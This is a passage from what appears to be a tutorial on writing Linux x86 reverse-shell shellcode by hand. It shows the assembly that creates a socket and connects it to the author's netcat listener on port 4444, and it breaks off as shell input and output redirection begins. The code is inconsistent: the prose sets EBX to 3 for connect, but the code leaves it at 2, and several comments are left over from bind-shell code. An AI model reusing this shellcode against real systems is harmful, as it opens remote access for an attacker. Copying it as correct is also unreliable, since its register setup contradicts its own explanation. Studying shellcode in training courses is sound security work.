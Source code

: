 ```asm

; point ecx to the stack for args
mov ecx, esp
int 0x80
```
Return value will be the sockfd which is stored in EAX.  Since EAX is used for our socketcall argument, we need to move it to a register for safe keeping.  I will be using edi.
```asm
mov edi, eax
```
### Connect to an IP and port
Now that we have the sockfd, it's time to connect the socket to an IP and port.

As we created earlier, our reference is:

int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);

Just for my own understanding, I'll write out the socketcall format with any structs or objects in {}.

socketcall( SYS_CONNECT, {sockfd, {AF_INET, 4444, [IP]}, 0x10} );

EAX - 0x66 - socketcall

EBX - 0x3 -SYS_CONNECT

ECX - pointing to stack:

STACK: edi, point to struct, 0x10, struct{0x2, 0x115C, 0x83f7a8c0}

0x115C is the port number and 0x83f7a8c0 is the IP of my netcat listener.

Lets build this in assembly now:
```asm
mov al, 0x66
inc ebx      ; previously set to 0x1 -> increase it to 2

; push struct to stack
push 0x83f7a8c0       ; ip: aton(192.168.247.131) - 0x83f7a8c0
push word 0x5C11           ; port: htons(4444) - 0x5C11
push bx               ; AF_INET = 2

;store reference to struct
mov ecx, esp

; push bind args
push 0x10      ; sizeof(sock_addr) = 0x10
push ecx       ; struct sock_addr
push edi       ; sockfd

mov ecx, esp
int 0x80
```
### Redirect output
Now that we have accepted the connection, we need to redirect in, out, & err.
